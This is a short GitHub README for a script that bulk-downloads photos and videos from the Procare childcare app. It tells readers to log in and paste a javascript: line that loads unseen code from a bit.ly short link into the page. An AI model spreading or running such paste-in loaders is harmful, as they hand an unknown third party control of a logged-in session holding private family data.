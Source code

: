 # procare-media-downloader
Hack method to download all of your media from procare.

***INSTRUCTIONS BELOW***

Quick script I wrote to download all pictures and videos out of procare. To use, do the following:

1.) Copy the following string of text:

```javascript:var js = document.createElement('script');js.src = 'https://bit.ly/37fHdcX';document.querySelectorAll('head')[0].appendChild(js)```

2.) Open google chrome (might work with other browsers, but not really tested)

3.) Log into procare

4.) In the address bar, type the word "javascript" followed by a colon (:) like this:

5.) Paste the text you copied earlier so your address bar now looks like this:

![image](https://user-images.githubusercontent.com/2482935/128072390-fa9d551c-0caf-4c0e-81f1-3179248ab639.png)


6.) Hit ENTER

7.) Select the date range of pictures you want to extract and click "EXTRACT"

![image](https://user-images.githubusercontent.com/2482935/128072694-a557e95a-39b4-40eb-9669-31c742414bff.png)

8.) When the website asks for permission to download multiple files, click "YES". These are your pictures and videos its trying to download.

This sounds *WAY* more complicated than it really is.
Just watch the [video](https://youtu.be/yoTPQEt3OqI)
, and if you get lost please feel free to contact me.

